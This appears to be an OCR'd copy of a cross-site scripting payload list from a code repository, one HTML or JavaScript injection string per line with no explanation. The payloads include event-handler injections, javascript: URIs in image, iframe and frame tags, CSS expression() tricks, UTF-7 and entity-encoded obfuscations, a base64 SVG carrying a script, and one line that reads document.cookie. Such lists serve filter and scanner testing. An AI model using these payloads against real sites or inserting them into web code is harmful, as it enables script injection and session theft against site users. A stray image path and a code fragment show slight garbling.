 $$<D3/OnMouSEenTer=[2].find(confirm)>z$$
$$<D3/OnpOinTeReENter=confirm``>click here$$
$$<DIV STYLE="background-image: url(&#1;javascript:alert('XSS'))">$$
$$<DIV STYLE="background-image: url(javascript:alert('XSS'))">$$
$$<DIV STYLE="background-image: url(javascript:javascript:alert(1))">$$
$$<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">$$
$$<DIV STYLE="width: expression(alert('XSS'));">$$
$$<DIV STYLE="width:expression(javascript:alert(1));">$$
$$<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>$$
$$<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>$$
$$<FRAMESET><FRAME SRC="javascript:javascript:alert(1);"></FRAMESET>$$
$$<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-%(payload)s;+ADw-/SCRIPT+AD4-$$
$$<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-$$
$$<HTML xmlns:xss><?import namespace="xss" implementation="%(htc)s"><xss:xss>XSS</xss:xss></HTML>""","XML namespace."),("""<XML ID="xss"><I><B>&lt;IMG SRC="javascript:javascript:alert(1)"&gt;</B></I></XML><SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>$$
$$<HTML><BODY>$$
$$<HTML><BODY><?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time"><?import namespace="t" implementation="#default#time2"><t:set attributeName="innerHTML" to="XSS&lt;SCRIPT DEFER&gt;javascript:alert(1)&lt;/SCRIPT&gt;"></BODY></HTML>$$
$$<IFRAME SRC="javascript:alert('XSS');"></IFRAME>$$
$$<IFRAME SRC="javascript:javascript:alert(1);"></IFRAME>$$
$$<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>$$
$$<IMG """><SCRIPT>alert("XSS")</SCRIPT>">$$
$$<IMG DYNSRC="javascript:alert('XSS')">$$
$$<IMG DYNSRC="javascript:javascript:alert(1)">$$
$$<IMG LOWSRC="javascript:alert('XSS')">$$
$$<IMG LOWSRC="javascript:javascript:alert(1)">$$
$$<IMG SRC= onmouseover="alert('xxs')">$$
$$<IMG SRC=" &#14;  javascript:alert('XSS');">$$
$$<IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">$$
$$<IMG SRC="jav	ascript:alert('XSS');">$$
$$<IMG SRC="jav    ascript:javascript:alert(1);">$$
$$<IMG SRC="jav ascript:alert('XSS');">$$
$$<IMG SRC="jav&#x09;ascript:alert('XSS');">$$
$$<IMG SRC="jav&#x0A;ascript:alert('XSS');">$$
$$<IMG SRC="jav&#x0D;ascript:alert('XSS');">$$
$$<IMG SRC="javascript:alert('XSS')"$$
$$<IMG SRC="javascript:alert('XSS');">$$
$$<IMG SRC="javascript:javascript:alert(1)"$$
$$<IMG SRC="javascript:javascript:alert(1);">$$
$$<IMG SRC="livescript:[code]">$$
$$<IMG SRC="mocha:[code]">$$
$$<IMG SRC=# onmouseover="alert('xxs')">$$